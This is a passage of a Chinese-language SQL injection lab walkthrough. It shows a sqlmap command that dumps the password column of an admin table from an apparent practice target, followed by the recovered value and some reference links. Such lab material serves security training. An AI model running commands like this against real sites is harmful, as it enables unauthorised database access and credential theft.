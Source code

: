 



接下来是查询`password`字段里存放的数据，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe -T admin -C password --dump
```

结果如下：

![](https://pic1.imgdb.cn/item/6472c1e9f024cca1731152a3.jpg)

sqlmap扫到`password`字段里存放的数据为：

`hellohack zkaqbanban`

​	

​	

**参考文章：**
http://t.csdn.cn/3SJAU
https://zhuanlan.zhihu.com/p/397815893
http://t.csdn.cn/DTTTa

